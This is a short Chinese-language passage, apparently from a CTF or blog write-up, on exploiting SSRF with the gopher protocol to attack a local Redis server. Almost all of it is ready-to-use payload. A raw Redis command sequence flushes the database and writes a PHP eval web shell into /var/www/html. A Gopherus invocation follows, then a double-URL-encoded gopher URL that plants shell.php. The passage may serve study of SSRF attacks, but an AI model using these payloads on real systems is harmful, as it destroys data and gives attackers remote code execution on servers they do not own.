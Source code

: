 其实payload的原版是

```cobol
/?url=gopher://127.0.0.1:6379/_*1
$8
flushall
*3
$3
set
$1
1
$32
 
 
<?php eval($_GET["feng"]);?>
 
 
*4
$6
config
$3
set
$3
dir
$13
/var/www/html
*4
$6
config
$3
set
$10
dbfilename
$8
feng.php
*1
$4
save
```

这样的 和之前差不多 就是直接通过 流量包复制出来 然后命令执行

我们继续通过  gopherus 来实现

```sql
python2 gopherus.py --exploit redis
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b2d75d3f4ecc149dedf40672b6c2a736.png" alt="" style="max-height:212px; box-sizing:content-box;" />


然后再进行一次 url编码

```cobol
gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252432%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2522cmd%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```
